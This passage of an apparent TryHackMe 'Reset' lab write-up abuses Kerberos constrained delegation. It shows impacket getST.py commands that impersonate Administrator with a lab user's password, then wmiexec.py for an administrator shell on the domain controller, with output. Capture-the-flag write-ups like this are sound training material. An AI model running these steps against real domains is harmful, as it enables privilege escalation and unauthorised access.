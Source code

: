 ![image.png](/assets/img/reset/image%202.png)

This means we can impersonate Administrator for the `CIFS` service on the Domain Controller (haystack.thm.corp), using impacket’s `getST.py` 

```bash
──(d15u㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ python3 /usr/share/doc/python3-impacket/examples/getST.py -spn "cifs/haystack.thm.corp" -impersonate "Administrator" 'thm.corp/DARLA_WINTERS:NewDPass123!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
                                                                                                                                                             
```

From here, getting the root flag was a piece of cake.

```bash
──(d15u㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ export KRB5CCNAME=Administrator@cifs_haystack.thm.corp@THM.CORP.ccache 
                                                                                                                                                                                                                                                                                                     
┌──(d15u㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass Administrator@haystack.thm.corp
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thm\administrator
```